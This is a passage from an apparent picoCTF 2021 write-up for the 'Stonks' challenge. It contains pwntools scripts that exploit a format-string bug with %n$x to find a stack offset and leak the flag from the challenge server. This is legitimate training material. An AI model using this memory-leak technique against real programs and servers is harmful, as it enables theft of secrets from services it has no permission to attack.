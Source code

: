 ```python
            print(f"Found start of flag ({FLAG_START}) with little endian at offset {i}")
        # Big endian case
        res_be = p32(int(out.decode(), 16), endianness="big").decode()
        if (res_be == FLAG_START):
            print(f"Found start of flag ({FLAG_START}) with big endian at offset {i}")
    except Exception:
        pass
    io.recvall()
    io.close()
```

Here I have used something called 'Direct Parameter Access'. With `%n$x` you can read the specified n:th integer from the stack and output it as hex.  
Since I sometimes screw up little and big endian I made sure to test both cases in the script.  
To make the output less chatty I set the log_level to `warning` (default is `info`).

Let's try the script out
```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks]
└─$ ~/python_venvs/pwntools/bin/python find_offset.py
/mnt/hgfs/CTFs/picoCTF/picoCTF_2021/Binary_Exploitation/Stonks/find_offset.py:14: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendlineafter(b"What is your API token?\n", f"%{i}$x")
Found start of flag (pico) with little endian at offset 15
```

Pwntools complains about my f-string that isn't bytes, but otherwise it works beautifully.  
The offset to the start of the flag is `15` integers on the stack.

### Get the flag

Now, let's modify the script slightly and write a new script `get_flag.py` that retrieves all the flag
```python
#!/usr/bin/python

from pwn import *

SERVER = 'mercury.picoctf.net'
PORT = 16439
offset = 15

# Set output level (critical, error, warning, info, debug)
context.update(log_level = "warning")

flag = b''
keep_going = True
while keep_going:
    io = remote(SERVER, PORT)    
    io.sendlineafter(b"2) View my portfolio\n", b"1")
    io.sendlineafter(b"What is your API token?\n", f"%{offset}$x")
    io.recvuntilS(b"Buying stonks with token:\n")
    out = io.recvline()
    try:
        res_le = p32(int(out.decode(), 16), endianness="little")
        flag += res_le
        if (b'}' in res_le):
            keep_going = False
    except Exception:
        pass
    io.recvall()
    io.close()
    offset += 1

print(flag)
```